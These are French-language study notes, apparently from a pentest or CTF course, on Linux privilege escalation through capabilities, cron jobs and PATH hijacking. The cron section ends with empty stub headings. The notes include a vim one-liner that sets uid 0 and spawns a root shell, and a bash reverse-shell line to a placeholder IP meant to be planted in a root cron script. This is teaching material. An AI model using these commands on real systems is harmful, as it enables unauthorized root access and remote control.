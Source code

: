 ## 6) Capacités Exploit
* Les capacités permettent de gérer les privilèges à un niveau plus granulaire.
* Par exemple, si l'analyste SOC a besoin d'utiliser un outil qui doit initier des connexions de socket, un utilisateur normal ne sera pas en mesure de le faire. Si l'administrateur système ne souhaite pas accorder à cet utilisateur des privilèges plus élevés, il peut modifier les capacités du binaire. Ainsi, le binaire pourra accomplir sa tâche sans avoir besoin d'un utilisateur aux privilèges plus élevés.
* L'outil getcap permet de lister les capacités activées
```
getcap -r / 2>/dev/null
```
* Selon les executables trouvés on cherche comment les lancer en mode root 
* Exemple pour Vim 
```
./vim -c ':py3 import os; os.setuid(0);os.execl("/bin/sh", "sh", "-c","reset; exec sh")'
```

## 7) Crontabs Exploit
* Les tâches Cron sont utilisées pour exécuter des scripts ou des binaires à des moments précis
* Ils s'exécutent avec les privilèges de leurs propriétaires et non de l'utilisateur actuel
* L'idée est simple : s'il existe une tâche planifiée qui s'exécute avec les privilèges de l'utilisateur root et que nous pouvons modifier le script qui sera exécuté, alors notre script s'exécutera avec les privilèges de l'utilisateur root.
* Se rendre dans `/etc/crontab`
```
cat /etc/crontab
```
* Réperer un fichier qui s'execute regulierement et qui appartient à root et le modifier pour obtenir un reverse shell en root directement 
```
#!/bin/bash
bash -i >& /dev/tcp/@ip/@port 0>&1
```

## 8) PATH Exploit
* PATH sous Linux est une variable d'environnement qui indique au système d'exploitation où rechercher les exécutables. Pour toute commande qui n'est pas intégrée à l'interpréteur de commandes ou qui n'est pas définie par un chemin absolu, Linux commence à chercher dans les dossiers définis dans PATH
* Se poser les questions suivantes 
	* Quels sont les dossiers situés sous $PATH ?
	* Votre utilisateur actuel a-t-il des privilèges d'écriture pour l'un de ces dossiers ?
	* Pouvez-vous modifier $PATH ?
	* Existe-t-il un script/une application que vous pouvez lancer et qui sera affecté(e) par cette vulnérabilité ?

# Insecure File Permissions
* Cron

# Insecure File Permissions
* /etc/passwd

# Kernel Vulnerabilities:
